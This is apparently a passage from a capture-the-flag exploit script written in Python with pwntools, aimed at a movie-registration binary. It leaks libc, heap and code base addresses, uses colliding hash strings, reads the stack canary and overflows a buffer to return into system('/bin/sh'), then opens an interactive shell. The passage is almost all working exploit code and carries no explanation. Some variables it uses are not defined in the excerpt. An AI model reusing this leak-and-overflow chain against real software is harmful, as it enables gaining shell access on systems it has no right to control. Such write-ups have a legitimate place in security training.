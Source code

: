 ```
libc_base=u32(leak_cha.recv(4))-21-libc.symbols['__fxstat64']
leak_cha.recv(32)
heap=u32(leak_cha.recv(4))-8
leak_cha.recv(0x270-120+8)
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

chain=heap+0x1170

code_base=u32(leak_cha.recv(4))-0x1809
got_sec=code_base+0x4000

col_3="0e306561559aa787d00bc6f70bbdfe3404cf03659e704f8534c00ffb659c4c8740cc942feb2da115a3f4155cbb8607497386656d7d1f34a42059d78f5a8dd1ef"
col_4="0e306561559aa787d00bc6f70bbdfe3404cf03659e744f8534c00ffb659c4c8740cc942feb2da115a3f415dcbb8607497386656d7d1f34a42059d78f5a8dd1ef"

col_3=col_3.decode('hex')
col_4=col_4.decode('hex')

content3="su_______________________________bal"
content4="A"*0x400
content4+=p32(0x600)
content4+=p32(chain)

reg_movie(col_3,1,len(content3),content3)
reg_movie(col_4,1,len(content4),content4)

broad_movie(3,19,150,7777)

leak_string="\xff"*8
leak_string+=p32(canary_loc+1)
leak_string+=p32(chain+0xa0)

reg_movie(leak_string,1,16,"A"*16)

p.recvuntil("> ")
p.sendline("1")
p.recvuntil("-\n")

p.recvuntil("Titile : ")
canary=u32("\x00"+p.recv(3))

pay="B"*0x400
pay+=p32(0x600)
pay+=p32(chain)
pay+=p32(canary)
pay+="AAAA"*3
pay+=p32(system)
pay+="AAAA"
pay+=p32(sh)

reg_movie(col_1,1,len(pay),pay)

broad_movie(2,19,150,7777)

p.interactive()
```
